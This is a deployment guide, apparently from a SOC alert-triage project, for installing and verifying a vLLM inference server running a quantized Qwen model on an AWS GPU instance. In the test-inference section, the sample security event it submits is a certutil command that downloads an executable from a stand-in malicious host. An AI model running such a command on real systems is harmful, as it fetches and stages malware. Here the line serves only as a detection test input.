

# Local LLM Server Installation & Configuration Guide (Server 2)

## 1. Executive Summary & Hardware Context

This guide specifies the automated installation, configuration, and operational verification of **Server 2 (Local LLM Inference Node)** in the **AI Verdict (WyseSOC AI)** architecture.

### Target Infrastructure
- **Cloud Provider**: AWS EC2
- **Instance Type**: `g4dn.2xlarge`
- **CPU & Memory**: 8 vCPUs, 32 GB RAM
- **GPU Accelerator**: 1x NVIDIA T4 (16 GB VRAM, Turing Architecture, Compute Capability 7.5)
- **Host OS**: Ubuntu 22.04 LTS / 24.04 LTS (x86_64)
- **Primary Serving Engine**: **vLLM** (Production continuous batching & PagedAttention)
- **Primary Model**: **`Qwen/Qwen2.5-7B-Instruct-AWQ`** (4-bit quantized)

---

## 2. Technical Architecture & VRAM Budget



### Why AWQ 4-Bit Quantization on NVIDIA T4?
| Metric | FP16 (Unquantized) | AWQ 4-Bit (Selected) | Benefit |
| :--- | :--- | :--- | :--- |
| **Model Weights in VRAM** | ~14.8 GB | **~5.5 GB** | **63% reduction in memory footprint** |
| **Available VRAM for KV-Cache** | < 1.2 GB (High risk of OOM) | **~10.5 GB** | Can handle 40–60 concurrent replay streams |
| **Max Context Window** | Limited (< 2048 tokens) | **4096 tokens** | Full multi-event SIEM alert payloads accommodated |
| **Inference Latency** | ~650 ms / incident | **~380 ms / incident** | High throughput on Turing INT4 tensor cores |

---

## 3. Automated Installation Script

The setup script is located in the repository at [`deployment/scripts/install_llm_server.sh`](file:///deployment/scripts/install_llm_server.sh).

```bash
#!/usr/bin/env bash
# ==============================================================================
# AI VERDICT — LOCAL LLM SERVER AUTOMATED INSTALLATION & CONFIGURATION SCRIPT
# Architecture : Server 2 (GPU Inference Node)
# Target Cloud : AWS EC2 g4dn.2xlarge (1x NVIDIA T4 GPU, 16GB VRAM, 8 vCPUs, 32GB RAM)
# Target OS    : Ubuntu 22.04 LTS / Ubuntu 24.04 LTS
# Serving Stack: vLLM (OpenAI-Compatible Engine) + Qwen2.5-7B-Instruct-AWQ
# ==============================================================================

set -euo pipefail

# --- Configuration Defaults ---
SERVER_DIR="/opt/llm-server"
SERVICE_USER="llmuser"
DEFAULT_MODEL="Qwen/Qwen2.5-7B-Instruct-AWQ"
MODEL_NAME="${MODEL_NAME:-$DEFAULT_MODEL}"
PORT="8000"
MAX_MODEL_LEN="4096"
GPU_MEM_UTIL="0.90"
SERVER_1_IP="${1:-}"  # Pass Server 1 private IP as first argument: sudo bash install_llm_server.sh <SERVER_1_PRIVATE_IP>

echo "===================================================================="
echo " Starting AI Verdict Local LLM Server Setup (AWS g4dn.2xlarge / T4)"
echo " Model: ${MODEL_NAME}"
echo " Port : ${PORT}"
echo "===================================================================="

# Check root privileges
if [ "$EUID" -ne 0 ]; then
  echo "[ERROR] Please run this script as root or with sudo:"
  echo "  sudo bash install_llm_server.sh [SERVER_1_PRIVATE_IP]"
  exit 1
fi

# Detect OS
if [ -f /etc/os-release ]; then
  . /etc/os-release
  echo "[INFO] Detected OS: $NAME $VERSION_ID"
fi

# 1. System Package Updates & Prereqs
echo ""
echo "[1/7] Updating system packages and installing prerequisites..."
export DEBIAN_FRONTEND=noninteractive
apt-get update -y
apt-get install -y \
  build-essential \
  curl \
  wget \
  git \
  jq \
  ufw \
  python3 \
  python3-pip \
  python3-venv \
  python3-dev

# 2. NVIDIA Driver & CUDA Setup
echo ""
echo "[2/7] Checking NVIDIA GPU drivers and CUDA support..."
if ! command -v nvidia-smi &> /dev/null; then
  echo "[INFO] nvidia-smi not detected. Installing headless NVIDIA datacenter drivers..."
  apt-get install -y linux-headers-$(uname -r)
  
  # Install standard datacenter/server driver for AWS G4dn (Turing T4)
  apt-get install -y nvidia-driver-535-server nvidia-utils-535-server || \
  apt-get install -y nvidia-driver-535 nvidia-utils-535

  echo "[NOTICE] NVIDIA drivers installed."
else
  echo "[INFO] NVIDIA driver already active:"
  nvidia-smi --query-gpu=name,driver_version,memory.total --format=csv,noheader || true
fi

# 3. Create Dedicated Service User & Directories
echo ""
echo "[3/7] Setting up dedicated service user and directories..."
if ! id "$SERVICE_USER" &>/dev/null; then
  useradd -r -s /bin/bash -d "$SERVER_DIR" "$SERVICE_USER"
  echo "[INFO] Created system user '$SERVICE_USER'"
fi

mkdir -p "$SERVER_DIR"
mkdir -p "$SERVER_DIR/hf_cache"
mkdir -p /var/log/llm-server

chown -R "$SERVICE_USER:$SERVICE_USER" "$SERVER_DIR"
chown -R "$SERVICE_USER:$SERVICE_USER" /var/log/llm-server

# 4. Python Virtual Environment & vLLM Installation
echo ""
echo "[4/7] Installing vLLM inference engine in virtual environment..."
VENV_DIR="$SERVER_DIR/venv"
if [ ! -d "$VENV_DIR" ]; then
  python3 -m venv "$VENV_DIR"
fi

# Upgrade pip and install vLLM
sudo -u "$SERVICE_USER" "$VENV_DIR/bin/pip" install --upgrade pip setuptools wheel
sudo -u "$SERVICE_USER" "$VENV_DIR/bin/pip" install \
  "vllm>=0.6.0" \
  "huggingface_hub[cli]" \
  "torch"

echo "[INFO] vLLM installation complete:"
sudo -u "$SERVICE_USER" "$VENV_DIR/bin/pip" show vllm | grep -E "Name|Version" || true

# 5. Pre-Cache / Download Model Weights
echo ""
echo "[5/7] Pre-caching model weights for '${MODEL_NAME}'..."
echo "      (AWQ 4-bit weights are ~5.5GB; downloading to cache)..."

sudo -u "$SERVICE_USER" HF_HOME="$SERVER_DIR/hf_cache" "$VENV_DIR/bin/huggingface-cli" download \
  "$MODEL_NAME" \
  --cache-dir "$SERVER_DIR/hf_cache" || {
    echo "[WARNING] Could not pre-download model with huggingface-cli. vLLM will download at startup."
}

# 6. Create & Enable Systemd Service
echo ""
echo "[6/7] Creating systemd service unit '/etc/systemd/system/vllm-server.service'..."

cat <<EOF > /etc/systemd/system/vllm-server.service
[Unit]
Description=vLLM OpenAI-Compatible Inference Server (AI Verdict Server 2)
After=network.target nvidia-persistenced.service
Wants=network-online.target

[Service]
Type=simple
User=${SERVICE_USER}
Group=${SERVICE_USER}
WorkingDirectory=${SERVER_DIR}
Environment="HF_HOME=${SERVER_DIR}/hf_cache"
Environment="CUDA_VISIBLE_DEVICES=0"
Environment="NCCL_DEBUG=INFO"
Environment="PYTHONUNBUFFERED=1"
ExecStart=${VENV_DIR}/bin/vllm serve ${MODEL_NAME} \\
    --host 0.0.0.0 \\
    --port ${PORT} \\
    --max-model-len ${MAX_MODEL_LEN} \\
    --gpu-memory-utilization ${GPU_MEM_UTIL} \\
    --dtype float16 \\
    --trust-remote-code \\
    --disable-log-requests

Restart=always
RestartSec=10
LimitNOFILE=65535
TimeoutStartSec=600

StandardOutput=append:/var/log/llm-server/vllm.log
StandardError=append:/var/log/llm-server/vllm_error.log

[Install]
WantedBy=multi-user.target
EOF

systemctl daemon-reload
systemctl enable vllm-server.service

if command -v nvidia-smi &> /dev/null && nvidia-smi &> /dev/null; then
  echo "[INFO] Starting vllm-server.service..."
  systemctl restart vllm-server.service
else
  echo "[WARNING] GPU driver not active yet. Please reboot the server: 'sudo reboot'"
  echo "          vLLM will start automatically on boot once the driver is initialized."
fi

# 7. Network Firewall (UFW) Hardening
echo ""
echo "[7/7] Configuring network firewall rules..."
ufw allow 22/tcp comment "SSH Management" > /dev/null || true

if [ -n "$SERVER_1_IP" ]; then
  echo "[INFO] Whitelisting Server 1 IP ($SERVER_1_IP) for Port ${PORT}..."
  ufw allow from "$SERVER_1_IP" to any port "$PORT" proto tcp comment "AI Verdict Server 1 API"
  echo "[INFO] Firewall rule added: Only $SERVER_1_IP can connect to port $PORT."
else
  echo "[NOTICE] No Server 1 IP passed as argument."
  echo "         Remember to restrict Port ${PORT} in your AWS Security Group to Server 1's Private IP!"
fi

echo "y" | ufw enable > /dev/null 2>&1 || true

# Summary
echo ""
echo "===================================================================="
echo " Installation Complete!"
echo "===================================================================="
echo " Service Name   : vllm-server.service"
echo " Model          : ${MODEL_NAME}"
echo " Port           : ${PORT} (OpenAI Compatible: /v1/chat/completions)"
echo " Log Files      : /var/log/llm-server/vllm.log"
echo "===================================================================="
```

---

## 4. Step-by-Step Remote Deployment Walkthrough

### Step 1: Connect to Server 2
```bash
ssh -i ~/.ssh/<your-key>.pem ubuntu@<SERVER_2_IP>
```

### Step 2: Download the Installation Script
```bash
curl -fsSL https://raw.githubusercontent.com/Wysetek-ELK/WyseSOC-AI/main/deployment/scripts/install_llm_server.sh -o install_llm_server.sh
chmod +x install_llm_server.sh
```

### Step 3: Execute the Automated Setup
Pass Server 1's private IP as the argument so UFW allows inbound requests only from Server 1:
```bash
sudo bash install_llm_server.sh <SERVER_1_PRIVATE_IP>
```

> [!IMPORTANT]
> If the NVIDIA driver was freshly installed on an unconfigured AMI, reboot the instance once:
> ```bash
> sudo reboot
> ```
> `vllm-server.service` is pre-configured with `systemctl enable` and will launch automatically on boot.

---

## 5. Operational Verification & Health Checks

### A. GPU Status & Thermal/Memory Telemetry
```bash
nvidia-smi
```
*Expected Output:*
- Driver Version: `535.x` or higher
- CUDA Version: `12.x`
- GPU: `Tesla T4`
- Volatile GPU-Util: Visible when processing batches.

### B. Service Management & Real-Time Logs
```bash
# Check service status
sudo systemctl status vllm-server

# View live systemd logs
sudo journalctl -u vllm-server -f

# View raw engine log output
tail -f /var/log/llm-server/vllm.log
```

### C. Verify Model Endpoint Availability
```bash
curl http://127.0.0.1:8000/v1/models
```
*Expected Output:*
```json
{
  "object": "list",
  "data": [
    {
      "id": "Qwen/Qwen2.5-7B-Instruct-AWQ",
      "object": "model",
      "owned_by": "vllm"
    }
  ]
}
```

### D. Execute End-to-End Test Inference
```bash
curl -X POST http://127.0.0.1:8000/v1/chat/completions \
  -H "Content-Type: application/json" \
  -d '{
    "model": "Qwen/Qwen2.5-7B-Instruct-AWQ",
    "messages": [
      {
        "role": "system",
        "content": "You are AI Verdict Level-2 SOC incident analyzer."
      },
      {
        "role": "user",
        "content": "Evaluate event: certutil.exe -urlcache -split -f http://evil.com/mal.exe. Output JSON with verdict (TRUE_POSITIVE or FALSE_POSITIVE)."
      }
    ],
    "temperature": 0.0
  }'
```

---

## 6. AWS EC2 Security Group Configuration

In the AWS EC2 Management Console for Server 2 (`g4dn.2xlarge`):

| Type | Protocol | Port Range | Source | Description |
| :--- | :--- | :--- | :--- | :--- |
| **SSH** | TCP | `22` | Corporate Bastion / VPN CIDR | Administrative access |
| **Custom TCP** | TCP | `8000` | `<SERVER_1_PRIVATE_IP>/32` | Allow AI Verdict Server 1 dry-run API |

---

## 7. Optional: Lightweight Alternative (Ollama)

For rapid sandbox prototyping or alternative benchmarking, an Ollama installer is provided at [`deployment/scripts/install_ollama_llm.sh`](file:///deployment/scripts/install_ollama_llm.sh):

```bash
sudo bash install_ollama_llm.sh qwen2.5:7b <SERVER_1_PRIVATE_IP>
```
*Ollama endpoint: `http://<SERVER_2_IP>:11434/v1/chat/completions`*
